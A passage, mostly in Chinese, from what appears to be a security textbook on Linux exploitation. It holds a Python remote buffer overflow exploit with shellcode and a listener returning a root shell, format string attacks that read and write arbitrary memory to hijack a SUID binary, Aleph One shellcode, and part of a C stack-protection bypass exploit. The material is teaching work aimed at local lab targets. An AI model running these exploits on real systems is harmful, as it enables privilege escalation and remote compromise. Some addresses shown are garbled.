sc += "\x25\x54\x42\xfa\x25\xc5\x37\x56\xc0\xeb\x3e\xb9\xa4"
sc += "\x8d\x8d\xba\x56\x08\xbe\x84\x95\x2a\xf7\x83\xdc\x42"
sc += "\xc8\xdc\xdf\x52\xa0\x1e\xe0\x73\xd2\x96\x01\xc3\x72"
sc += "\xf9\x90\x70\xc8\xfa\x9b\x97\xe3\x7d\xc9\x3f\x92\x52"
sc += "\x9d\xd7\x02\x82\x4e\x45\xba\x55\x73\xdb\x6f\xef\x95"
sc += "\x6b\x84\x22\xd5"

noplen = 32
jmp = "\x78\xf3\xff\xbf"      # NOP sled address

s = socket.socket()
s.connect(("localhost", 5555)) # Connect to server
print s.recv(1024)             # Receive Banner

exploit = ""                   # Build Exploit String
exploit += "A"*off + jmp + "\x90"*noplen + sc
exploit += "C"*(total-off-4-len(sc)-noplen)

s.send(exploit)                # Send Exploit String
s.close()
```

如果我们启动监听器然后运行 Python 脚本，我们应该能拿回 shell：

```
root@kali:~# nc -vvvnl -p 8675
listening on [any] 8675 ...
connect to [192.168.192.192] from (UNKNOWN) [192.168.192.192] 35980
id
uid=0(root) gid=0(root) groups=0(root)
```

太好了！它成功了！在设置监听器并运行利用程序后，我们得到了与监听器的连接。连接后，我们看不到提示符。但是，我们可以在 shell 中执行命令。如果输入 id，我们会得到响应。任何需要终端的东西，例如 pico 或其他编辑器，都不会显示得很好。但是，有了 root 权限，如果我们需要交互式登录，可以添加自己的用户。我们对系统拥有完全控制权。

### 总结

在探索 Linux 利用基础知识的过程中，我们研究了多种成功溢出缓冲区以获取提升的权限或远程访问权限的方法。通过填充超过缓冲区分配的空间，我们可以覆盖扩展栈指针 (ESP)、扩展基址指针 (EBP) 和扩展指令指针 (EIP)，以控制代码执行的元素。通过导致执行被重定向到我们提供的 shellcode，我们可以劫持这些二进制文件的执行以获取额外访问权限。

值得注意的是，我们可以通过使用易受攻击的 SUID 二进制文件作为利用目标来提升权限。当我们利用这些文件时，我们将获得与 SUID 二进制文件所有者相同的访问级别。在利用过程中，我们可以根据需要灵活生成有效载荷，例如注入 shell、调用监听器的套接字或其他功能。

在构建利用程序时，我们使用许多工具（例如 pattern_create 和 pattern_offset）和构造（例如 NOP 滑板和填充）来帮助将代码定位到正确的位置。当我们把所有这些东西组合在一起时，遵循本章概述的步骤将帮助我们为构建利用程序创建一个通用框架。

### 延伸阅读

- 缓冲区溢出 https://en.wikipedia.org/wiki/Buffer_overflow
- “缓冲区溢出揭秘”（Murat Balaban）www.enderunix.org/docs/eng/bof-eng.txt
- 《黑客攻防：利用的艺术，第 2 版》（Jon Erickson）No Starch Press，2008
- Intel x86 函数调用约定 – 汇编视图（Steve Friedl）www.unixwiz.net/techtips/win32-callconv-asm.html
- “Linux 文件和目录权限详解”（Richard Sandlin）www.krnlpanic.com/tutorials/permissions.php
- “为了娱乐和利润而攻破栈”（Aleph One，又名 Aleph1）www.phrack.com/issues.html?issue=49&id=14#article

## 高级 Linux 利用

在阅读第 11 章掌握基础知识后，您现在已准备好学习更高级的 Linux 利用。该领域在不断发展，黑客始终在发现新技术，开发人员也在实施应对措施。无论您如何处理问题，都需要超越基础。话虽如此，本书只能深入到一定程度——您的旅程才刚刚开始。本章末尾的“延伸阅读”部分将为您提供更多探索方向。

本章将讨论以下主题：

- 格式化字符串利用
- 内存保护方案

### 格式化字符串利用

格式化字符串利用于 2000 年底公开。与缓冲区溢出不同，格式化字符串错误在源代码和二进制分析中相对容易发现。尽管如此，它们在当今的应用程序中仍然很常见。许多组织在发布软件之前仍然不使用代码分析或二进制分析工具，因此这些错误仍然在野外出现。一旦被发现，它们通常会被迅速消除。随着越来越多的组织将代码分析工具作为构建流程的一部分，这类攻击将继续减少。然而，这种攻击向量仍然相对容易发现，并可能导致一些有趣的代码执行。

### 格式化字符串

格式化字符串由各种打印函数使用，这些函数的行为可能因提供的格式化字符串而异。以下是许多格式化函数中的一些（更完整的列表请参见“参考文献”部分²）：

- printf() 将输出打印到标准输入/输出（STDIO）句柄（通常是屏幕）
- fprintf() 将输出打印到文件流
- sprintf() 将输出打印到字符串
- snprintf() 将带有内置长度检查的输出打印到字符串

当有人调用这些函数之一时，格式化字符串决定了数据如何以及在哪里编译到最终字符串中。然而，格式化字符串非常通用，如果应用程序的创建者允许最终用户指定的数据直接用于其中一个格式化字符串，用户可以更改应用程序的行为。这可能包括

披露创建者不希望披露的其他信息，例如内存位置、数据变量和栈内存。

其他参数也可以读取和写入内存地址。由于这种功能，字符串格式漏洞的风险可能出现在任何地方，从信息泄露到代码执行。在本章中，我们将探讨信息泄露和代码执行，并了解如何将两者结合起来，将字符串格式漏洞作为利用的一部分。

### 问题

如您可能还记得第 2 章中提到的，printf() 函数可以带有任意数量的参数。我们将在这里讨论两种形式：

```
printf(<format string>, <list of variables/values>);
printf(<user supplied string>);
```

在第一个示例中，程序员指定了格式化字符串，然后指定将填充格式化字符串为数据所指定位置的变量。这防止了 printf 出现意外行为。第二个示例允许用户指定格式化字符串。这意味着用户可以导致 printf 函数以任何他们想要的方式行为。

表 12-1 介绍了两个其他格式标记，%hn 和 %<number>$，这些标记可用于格式化字符串（最初列于表 2-2 中的前四个符号包含在此，供您方便参考）。

| 格式符号 | 含义 | 示例 |
|---|---|---|
| \n | 回车/换行 | printf("test\n");<br>结果：应用程序打印 test。 |
| %d | 十进制值 | printf("test %d", 123);<br>结果：应用程序打印 test 123。 |
| %s | 字符串值 | printf("test %s", "123");<br>结果：应用程序打印 test 123。 |
| %x | 十六进制值 | printf("test %x", 0x123);<br>结果：应用程序打印 test 123。 |
| %hn | 将当前字符串的字节长度打印到 var 中（short int 值，覆盖 16 位） | printf("test %hn", var);<br>结果：值 04 存储在 var 中（即 2 字节）。 |
| %<number>$ | 直接参数访问 | printf("test %2$s", "12", "123");<br>结果：test 123（直接使用第二个参数并将其视为字符串）。 |


## 正确做法

回顾使用 printf() 函数的正确方式。例如，代码

```
//fmt1.c
#include <stdio.h>
int main() {
    printf("This is a %s.\n", "test");
    return 0;
}
```

将产生以下输出：

```
#gcc -o fmt1 fmt1.c
#./fmt1
This is a test.
```

## 错误做法

现在来看看如果我们忘记为 %s 添加要替换的值会发生什么：

```
//fmt2.c
#include <stdio.h>
int main() {
    printf("This is a %s.\n");
    return 0;
}
```

```
# gcc -o fmt2 fmt2.c
#./fmt2
This is a ey∂.
```

那是什么？它看起来像希腊语，但实际上是以 ASCII 显示的机器语言（二进制）。无论如何，这可能都不是你期望的结果。更糟糕的是，考虑一下如果这样使用 printf() 的第二种形式会发生什么：

```
//fmt3.c
#include <stdio.h>
int main(int argc, char * argv[]) {
    printf(argv[1]);
    return 0;
}
```

如果用户按如下方式运行程序，一切正常：

```
#gcc -o fmt3 fmt3.c
#./fmt3 Testing
Testing#
```

光标位于行尾，因为我们和之前一样没有使用回车符（\n）。但是，如果用户将格式字符串作为输入提供给程序会怎样？

```
#./fmt3 Testing%s
TestingYYy~z{y#
```

哇，看起来我们遇到了同样的问题。不过，事实证明后一种情况要致命得多，因为它可能导致整个系统被攻陷。要了解这里发生了什么，我们需要看看格式函数如何操作栈。

## 格式函数的栈操作

为了说明栈如何与格式函数配合工作，我们将使用以下程序：

```
//fmt4.c
#include <stdio.h>
int main(){
    int one=1, two=2, three=3;
    printf("Testing %d, %d, %d!\n", one, two, three);
    return 0;
}
$gcc -o fmt4 fmt4.c
./fmt4
Testing 1, 2, 3!
```

在执行 printf() 函数期间，栈的状态如图 12-1 所示。和往常一样，printf() 函数的参数按逆序入栈，如图所示。使用参数变量的地址。printf() 函数维护一个内部指针，该指针最初指向格式字符串（或栈帧顶部），然后开始将格式字符串的字符打印到 STDIO 句柄（在此例中为屏幕），直到遇到特殊字符。



如果遇到 %，printf() 函数期望后面跟随一个格式标记，因此会递增内部指针（指向栈帧底部）以获取格式标记的输入（变量或绝对值）。问题就在这里：printf() 函数无法知道是否为其操作在栈上放置了正确数量的变量或值。如果程序员不够严谨，没有提供正确数量的参数，或者允许用户提供自己的格式字符串，该函数会高兴地向下移动栈（内存中地址更高），获取下一个值以满足格式字符串的要求。因此，我们在之前的示例中看到的是 printf() 函数获取栈上的下一个值，并将其返回到格式标记所要求的位置。


注意 反斜杠（\\）由编译器处理，用于转义其后的下一个字符。这是向程序提供特殊字符而不让其按字面解释的一种方法。但是，如果遇到 \\x，编译器期望其后跟一个数字，并在处理前将该数字转换为其十六进制等效值。

## 影响

此问题的影响确实深远。在最佳情况下，栈值可能包含一个随机十六进制数，该数可被格式字符串解释为越界地址，导致进程发生段错误。这可能允许攻击者为应用程序创建拒绝服务攻击。

然而，在最坏情况下，一位细心且熟练的攻击者可能能够利用此故障读取任意数据并向任意地址写入数据。事实上，如果攻击者能够覆盖内存中的正确位置，他们可能能够获得 root 权限。

## 漏洞程序示例

在本节的其余部分，我们将使用以下易受攻击的代码片段来演示可能性：

```
//fmtstr.c
#include <string.h>
#include <stdio.h>
int main(int argc, char *argv[]){
    static int canary=0;    // stores the canary value in .data section
    char temp[2048];        // string to hold large temp string
    strcpy(temp, argv[1]);  // take argv1 input and jam into temp
    printf(temp);           // print value of temp
    printf("\n");           // print carriage return
    printf("Canary at 0x%08x = 0x%08x\n", &canary, canary); //print canary
}
```

```
#gcc -o fmtstr fmtstr.c
# ./fmtstr Testing
Testing
Canary at 0x80002028 = 0x00000000
#chmod u+s fmtstr
$
```


注意：金丝雀值目前只是一个占位符。重要的是要意识到，您的值会有所不同。就此而言，您的系统可能会为本章中的所有示例生成不同的值；但是，结果应当相同。

## 实验 12-1：从任意内存读取

现在我们将开始利用易受攻击的程序。我们会慢慢开始，然后逐渐加速。系好安全带，我们开始！


注意：此实验（如同所有实验一样）有一个包含设置说明的唯一 README 文件。有关更多信息，请参阅简介。

## 使用 %x 标记映射栈

如表 12-1 所示，%x 格式标记用于提供十六进制值。因此，通过向易受攻击的程序提供几个 %08x 标记，如下所示，我们应该能够将栈值转储到屏幕上：

```
$ ./fmtstr "AAAA %08x %08x %08x %08x %08x %08x %08x"
AAAA bffff5c4 00000000 8000061a 00000000 00000000 00000000 41414141
Canary at 0xbffffff37c = 0x00000000
```

在此示例中，08 用于定义十六进制值的精度（在此例中为 8 字节宽）。请注意，格式字符串本身存储在栈上，这一点由我们的 AAAA（0x41414141）测试字符串的存在所证明。在我们的情况中，需要七个 %08x 标记才能到达我们的 0x41414141。然而，这可能因系统而异，具体取决于 OS 版本、编译器版本或其他问题。要找到此值，只需从两个 %08x 标记开始，通过增加标记数量使用暴力破解，直到找到格式字符串的开头。对于我们的简单示例（fmtstr），%08x 标记的数量称为偏移量，并定义为偏移量 7。

## 使用 %s 标记读取任意字符串

因为我们控制格式字符串，所以可以在其中放置任何内容（嗯，几乎任何内容）。例如，如果我们想读取第四个参数中所在位置的地址的值，可以简单地将第四个格式标记替换为 %s，如下所示：

```
$ ./fmtstr "AAAA %08x %08x %08x %s"
Segmentation fault
$
```

为什么会发生段错误？因为，如你所记得的，%s 格式标记会获取栈上的下一个参数（在此例中为第四个），并将其视为要读取的内存地址（通过引用）。在我们的例子中，第四个值是 AAAA，其十六进制翻译为 0x41414141——正如你在上一章中看到的，这会导致段错误。

## 读取任意内存

那么，如何从任意内存位置读取数据呢？很简单：我们提供当前进程段中的有效地址。我们将使用 getenv 辅助程序来帮助查找有效地址：

```
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char *argv[]) {
    char * addr;   //simple string to hold our input in bss section
    addr = getenv(argv[1]);   //initialize the addr var with input
    printf("%s is located at %p\n", argv[1], addr); //display location
}
$ gcc -o getenv getenv.c
```

此程序的目的是从系统获取环境变量的位置。要测试此程序，让我们检查 SHELL 变量的位置，该变量存储当前用户 shell 的位置：


```bash
$ ./getenv SHELL
SHELL is located at 0xbfffff1c
```


注意 记住在当前Kali版本中禁用ASLR（参见本章后面的“地址空间布局随机化（ASLR）”部分）。否则，找到的SHELL变量地址将会变化，后面的练习将无法工作。

现在我们有了一个有效的内存地址，让我们试试。首先，请记住要反转内存位置，因为这个系统是小端序：

```text
$ ./fmtstr `printf "\x1c\xff\xff\xff\xbf"` %0x %0x %0x %0x %0x %0x %s`
���� bffff8a9 00000000 8000064a 00000000 00000000 00000000 1�1�^�1�1�F
x07�F
�
������V
1ÿ
xd8�?�?�?�?/bin/sh
Canary at 0xbffff6dc = 0x00000000
```

成功！我们能够读取给定地址（即SHELL环境变量）直到第一个空字符为止。花点时间试试看，并查看其他环境变量。要转储当前会话的所有环境变量，请在shell提示符下输入 `env | more`。

## 通过直接参数访问简化流程

为了让事情更简单，你可以通过所谓的直接参数访问来访问栈上的第七个参数。%$ 格式标记用于指导格式函数跳过若干参数并直接选择一个。下面是一个示例：

```text
//dirpar.c
#include <stdio.h>
int main(){
printf ("This is a %3$s.\n", 1, 2, "test" );
}
$gcc -o dirpar dirpar.c
$./dirpar
This is a test.
$
```

现在当你从命令行使用直接参数格式标记时，需要用反斜杠转义 $ 字符，以防止shell对其进行解释。让我们把这一切都用起来，重新打印SHELL环境变量的位置：

```text
./fmtstr `printf "\x1c\xff\xff\xff\xbf"`"%7\$s"
�?�11.1.�^11�?�F
x07�F
�
�?�?�?�?V
1ÿ
xd8@�?�?�?�?/bin/sh
Canary at 0xbffff6ec = 0x00000000
Notice how short the format string can be now.
```

> 注意 先前的格式适用于bash。其他shell，例如tcsh，需要其他格式，如下所示：$ ./fmtstr `printf "\x84\xfd\xff\xbf"` `\%7\$s'`
> 请注意末尾使用了单引号。为了使本章其余部分的示例更简单，请使用bash shell。

利用格式字符串漏洞，我们可以为 printf 和其他打印函数指定格式，从而读取程序中的任意内存。使用 %x，我们可以打印十六进制值，以便找到参数在栈中的位置。一旦知道我们的值存储在哪里，就可以确定 printf 如何处理它。通过指定内存位置，然后为该位置指定 %s 指令，我们会导致应用程序打印出该位置的字符串值。

使用直接参数访问，我们不必逐个处理栈上的额外值。如果我们已经知道栈中各个位置，可以使用 %3$s 打印第三个参数，或使用 %4$s 打印栈上的第四个参数。这将使我们能够读取应用程序空间内的任何内存地址，只要该地址中不包含空字符。

## 实验 12-2：向任意内存写入

在这个示例中，我们将尝试用shellcode的地址（我们将把它存储在内存中以供后续使用）来覆盖金丝雀地址（在我们的例子中是 0xbffff6dc）。请记住，你的金丝雀地址可能不同。我们将使用金丝雀地址，因为每次运行fmtstr时它都对我们可见，但稍后你将看到如何覆盖几乎任何地址。

## 魔术公式

正如Blaess、Grenier和Raynal所展示的，在内存中写入4个字节的最简单方法是将它们分成两个部分（2个高位字节和2个低位字节），然后使用%$和%hn标记将两个值放入正确的位置。1

例如，让我们将上一章的shellcode放入一个环境变量并检索其位置：

```text
$ export SC=`cat sc`
$ ./getenv SC
SC is located at 0xbfffff1c      !!!!!!yours will be different!!!!!!
```

如果我们想要将SC的值写入内存，我们将把它分成两个值：

- 两个高位字节（HOB）：0xbfff
- 两个低位字节（LOB）：0xff1c

如你所见，在我们的例子中，HOB小于（<）LOB，因此我们将遵循表12-2中的第一列，该表列出了魔术公式，帮助我们构建用于覆盖任意地址（在我们的例子中是金丝雀地址，0xbffff6dc）的格式字符串。

| 当 HOB < LOB | 当 LOB < HOB | 备注 | 在这种情况下 |
|---|---|---|---|
| [addr + 2][addr] | [addr + 2][addr] | | \xde\xf6\xff\xbf\xdc\xf6 \xff\xbf |
| %.[HOB - 8]x | %.[LOB - 8]x | 点（.）用于确保整数。用十进制表示。 | 0xbfff - 8 = 49143（十进制），所以 %.49143x |
| %[offset]$hn | %[offset + 1]$hn | | %7\$hn |
| %.[LOB - HOB]x | %.[HOB - LOB]x | 点（.）用于确保整数。用十进制表示。 | 0xff1c - 0xbfff = 16157（十进制），所以 %.16157x |
| %[offset + 1]$hn | %[offset]$hn | | %8\$hn |

表 12-2 用于计算利用格式字符串的魔术公式

## 使用金丝雀值进行练习

使用表12-2构建格式字符串，让我们尝试用shellcode的位置来覆盖金丝雀值。


> 注意 到此为止，你必须明白我们的程序（getenv和fmtstr）名称必须长度相同，因为程序名称在启动时存储在栈上。因此，如果这两个程序的名称长度不同，它们将有不同的环境（在这种情况下，shellcode的位置也不同）。如果你给程序起了不同的名字，你需要自行调整并考虑差异，或者简单地将它们重命名为相同的大小，以便这些示例能够工作。

要构建用于将金丝雀地址 0xbffff6dc 覆盖为 0xbfffff1c 的注入缓冲区，请遵循表12-2中的公式。右列已为你计算好值，并用于以下命令：

```text
./fmtstr `printf "\xde\xf6\xff\xbf\xdc\xf6\xff\xbf"%.49143x%7\$hn%.16157x%8\$hn
```

这将产生以下结果：

```text
�0000000000000000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
<A whole bunch of 0s>
Canary at 0xbffff6dc = 0xbffff1c
```


> **注意** 再次强调，你的值会不同。先从 getenv 程序开始，然后使用表 12-2 获取你自己的值。另外，printf 和双引号之间实际上并没有换行符。

利用格式字符串漏洞，我们也可以向内存写入。通过利用表12-2中的公式，我们可以选择应用程序内的内存位置并覆盖值。这个表格使得计算需要设置哪些值来操纵值，然后将其写入特定内存位置的数学变得容易。这将使我们能够更改变量值，并为更复杂的攻击做准备。

## 实验 12-3：更改程序执行

好吧，我们可以覆盖一个预设的金丝雀值……这有什么大不了的。然而，这确实是个大事，因为某些位置是可执行的，如果被覆盖，可能导致系统重定向并执行你的shellcode。现在，我们只需要找到一些允许我们控制程序执行的内存。为此，我们需要查看程序如何执行函数。当执行函数时，会保存许多内容，包括进入函数时程序所在的位置。这些数据被保存，以便在函数调用后我们可以轻松返回到程序，并且应用程序会知道我们停止的地方。

进入函数时保存的应用程序状态称为帧。这个帧包含重要数据，例如程序调用前扩展指令指针（EIP）的位置、变量存储位置以及其他相关控制信息。当我们查看这个帧时，可以获取保存的EIP指针的地址，然后覆盖该指针。然后，当函数返回到应用程序时，它将不再返回到停止的地方，而是执行我们的shellcode。

## 寻找目标

要找到要覆盖的目标地址，我们需要使用gdb来帮助确定函数内的帧信息。当我们查看可能有用的函数时，我们可以看到


在我们的字符串格式在printf中执行后，该执行将返回以执行更多printf语句。让我们看看printf内部的帧是什么样子，因为在我们的代码完成任务并覆盖一个地址后，我们可以通过覆盖printf保存的EIP地址来立即控制程序流。

让我们再次查看fmtstr二进制文件，这次在gdb中：

```
$ gdb -q ./fmtstr
Reading symbols from ./fmtstr...(no debugging symbols found)...done.
(gdb) b printf
Breakpoint 1 at 0x440
(gdb) r asdf
Starting program: /root/ch12/fmtstr asdf
```

```
Breakpoint 1, __printf (format=0xbffffeac "asdf") at printf.c:28
28 printf.c: No such file or directory.
```

一旦启动gdb，我们需要设置断点1。当到达断点时，这将停止执行。在此示例中，我们将把断点设为printf函数。这样，当printf执行时，它会暂停执行，以便我们可以查看正在发生的事情。

接下来，我们使用参数asdf运行程序2，以便程序按预期运行。当程序开始运行时，我们看到断点3出现。从此，我们看到程序在printf中停止，并且可以看到与该函数关联的参数和行号。

为了确定我们可能想要将执行重定向到哪里，我们需要在帧中找到保存的EIP地址。为此，我们将使用info命令，如下所示：

```
(gdb) i f
Stack level 0, frame at 0xbffffe90:
eip = 0xb7e46930 in __printf (printf.c:28); saved eip = 0x80000653
called by frame at 0xbffffff6d0
source language c.
Arglist at 0xbffffe88, args: format=0xbffffeac "asdf"
Locals at 0xbffffe88, Previous frame's sp is 0xbffffe90
Saved registers:
eip at 0xbffffe8c
```

请注意，info命令使用简写i f调用，这是info frame命令的缩写。该命令返回描述当前状态的帧数据。但是，我们想知道它将返回到的原始EIP地址。该信息在“保存的寄存器”部分中，我们看到EIP的指针设置为0xbffffe8c。这是我们想要覆盖的地址。帧还显示其他EIP相关信息，例如当前EIP值和保存的EIP值。这与保存的寄存器不同，因为那些寄存器是存储值的位置，而前述的保存EIP值是指针指向的位置存储的值。

## 把所有内容整合在一起

既然我们有了要覆盖的目标，就需要构建一个新的格式字符串。为此，我们必须再次获取shellcode的地址。我们将使用shellcode.c中Aleph One的shellcode，并将该值保存到环境变量SC中。由于我们将从非root帐户执行此操作，我们假设以下操作是作为之前创建的joeuser用户进行的。

```
$ export SC='perl -e 'print "\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"'
$ . /getenv SC
SC is located at 0xbffff2e
```

在这里，您可以看到我们使用了与之前相同的shellcode，但为了让此练习更宽容一些，我们在开头用八个NOP指令进行填充，以便我们可以落在NOP滑板的任何位置。由于我们有新的要覆盖的地址和新的SC位置，我们将需要进行一些重新计算。

再次，按照表12-2的第一列计算所需的格式字符串，以用shellcode的地址0xbffff2e覆盖新的内存地址0xbffffe8c。我们需要进行一些额外的数学运算来更改shellcode地址的位置。为此，我们使用表12-2中的公式，该公式告诉我们值应为0xff2e – 0xbfff，即16175。我们还将起始两个地址替换为我们的覆盖目标，加二，然后是我们的实际内存位置：

```
./fmtstr 'printf "%x\xe\xee\xff\xbf\x8c\xee\xff\xbf" '% .49143x%7\$hn% .16175x%8\$hn

00000000000000000000000000000000000000000000000000000000
000000
00000000000000000000000000000000000000000000000000000000<TRUNCATED>0000000000000000
000000000000000000000000000000000000000000000000000000Segmentation fault
```

哎呀，这没奏效。原因是我们告诉它去的地方，我们的shellcode位置，不在可执行内存空间中。默认情况下，存储我们环境变量和其他变量信息的栈是读/写权限的。我们需要它具有读/写/执行权限。因此，我们将作弊并使用可执行栈重新编译二进制文件。所以，以root身份，让我们重新创建我们的易受攻击的二进制文件：

```
# gcc -z execstack -o fmtstr fmtstr.c
# chmod u+s fmtstr
# su - joeuser
$ export SC=\'perl -e \'print \\"\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x31\\xc0\\x31\\\\
xdb\\xb0\\x17\\xcd\\x80\\xeb\\x1f\\x5e\\
\\x89\\x76\\x08\\x31\\xc0\\x88\\x46\\x07\\x89\\x46\\x0c\\xb0\\x0b\\x89\\xf3\\x8d\\x4e\\x08\\x8d\\x56\\x0c\\xcd\\x80\\x31\\xdb\\x89\\xd8\\x40\\xcd\\x80\\xe8\\xdc\\xff\\xff\\xff/bin/sh\"\'\'\'
$ ./getenv SC
SC is located at 0xbffffff2e
```

然后我们运行命令：

```
./fmtstr `printf "\x8e\xee\xff\xbf\x8c\xee\xff\xbf"`.49143x%7$hn%.16175x%8$hn
```

```
00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
<TRUNCATED>
00000000000000000000000000000000000000000000000000000000000000000000000000000000000000#
# id
uid=0(root) gid=1000(joeuser) groups=1000(joeuser)
```

成功！现在你可以放松了——你当之无愧。

以下是一些其他有用的覆盖位置示例：

- 全局偏移表
- 全局函数指针
- atexit处理程序
- 栈值
- 程序特定的身份验证变量

您还可以在本章末尾的“进一步阅读”部分获得更多想法。

通过利用字符串格式漏洞，我们有能力覆盖内存，包括函数指针。通过使用Lab 12-2的技术以及帧中的信息，我们可以更改应用程序流。通过将shellcode放入环境变量并识别该shellcode的位置，我们可以知道应用程序应被重定向到哪里。使用printf语句，我们可以覆盖保存的EIP值，以便当执行返回到调用函数时，它执行我们的shellcode而不是其他内容。

## 内存保护方案

自缓冲区溢出和堆溢出出现以来，许多程序员开发了内存保护方案来防止这些攻击。正如您将看到的，有些有效，有些无效。

## 编译器改进

从GCC 4.1开始，对gcc编译器进行了多项改进。

## Libsafe

Libsafe是一个动态库，允许更安全地实现以下危险函数：

- `strcpy()`
- `strcat()`
- `sprintf()` 和 `vsprintf()`
- `getwd()`
- `gets()`
- `realpath()`
- `fscanf()`、`scanf()` 和 `sscanf()`

Libsafe通过替换边界和输入清理实现来覆盖这些危险的libc函数，从而消除了大多数基于栈的攻击。但是，本章中描述的基于堆的利用没有提供任何保护。

## StackShield、StackGuard和堆栈粉碎保护（SSP）

StackShield是gcc编译器的替代品，可在编译时捕获不安全操作。安装后，用户只需使用shieldgcc而不是gcc来编译程序。此外，调用函数时，StackShield会将保存的返回地址复制到安全位置，并在从函数返回时恢复返回地址。

StackGuard由Crispin Cowan3开发，基于在堆栈缓冲区和帧状态数据之间放置“金丝雀”的系统。如果缓冲区溢出尝试覆盖保存的EIP，金丝雀将损坏并检测到违规。

堆栈粉碎保护（SSP），以前称为ProPolice，现在由IBM的Hiroaki Etoh开发，并通过重新排列堆栈变量来改进StackGuard的基于金丝雀的保护，使其更难以被利用。此外，SSP还实现了新的序言和尾声。

以下是之前的序言：

```
080483c4 <main>:
 80483c4: 55 push %ebp
 80483c5: 89 e5 mov %esp,%ebp
 80483c7: 83 ec 18 sub $0x18,%esp
```

以下是新的序言：


```
080483c4 <main>:
080483c4: 8d 4c 24 04 lea 0x4(%esp),%ecx
080483c8: 83 e4 f0 and $0xfffffff0,%esp
080483cb: ff 71 fc pushl -0x4(%ecx)
080483ce: 55 push %ebp
080483cf: 89 e5 mov %esp,%ebp
080483d1: 51 push %ecx
080483d2: 83 ec 24 sub $0x24,%esp
```

如图 12-2 所示，一个指针被提供给 ArgC，并在应用程序返回后进行检查，因此关键是控制指向 ArgC 的指针，而不是保存的 Ret。



Figure 12-2 旧和新的 prolog

由于这个新的 prolog，创建了一个新的 epilog：

```
80483ec : 83 c4 24 add $0x24,%esp
80483ef : 59 pop %ecx
80483f0 : 5d pop %ebp
80483f1 : 8d 61 fc lea -0x4(%ecx),%esp
80483f4 : c3 ret
```

## Lab 11-4: 绕过栈保护

回到第 11 章，我们讨论了如何通过使用内存环境段的末端来处理小缓冲区溢出。现在我们有了新的 prolog 和 epilog，需要插入一个虚假帧，包括一个虚假 Ret 和一个虚假 ArgC，如图 12-3 所示。



Figure 12-3 使用虚假帧攻击小缓冲区

使用这种虚假帧技术，我们可以通过跳转到虚假 ArgC 来控制程序的执行，虚假 ArgC 将使用虚假 Ret 地址（即 shellcode 的实际地址）。此类攻击的源代码如下：

```
//exploit2.c works locally when the vulnerable buffer is small.
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

#define VULN "./smallbuf"
#define SIZE 26

/*******************************************************************
* The following format is used
* &shellcode (eip) - must point to the shell code address
* argc - not really using the contents here
* shellcode
* ./smallbuf
*******************************************************************/
char shellcode[] = //Aleph1's famous shellcode, see ref.
"\xff\xff\xff\xff\xff\xff\xff\xff" // place holder for &shellcode and argc
"\x31\xc0\x31\xdb\xb0\x17\xcd\x80" //setuid(0) first
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
"\x80\xe8\xdc\xff\xff\xff/bin/sh";
int main(int argc, char **argv) {
// injection buffer
char p[SIZE];
// put the shellcode in target's envp
char *env[] = { shellcode, NULL };
int *ptr, i, addr,addr_argc,addr_eip;
// calculate the exact location of the shellcode
//addr = (int) &shellcode;
addr = 0xbfffffa - strlen(shellcode) - strlen(VULN);
addr += 4;
addr_argc = addr;
addr_eip = addr_argc + 4;
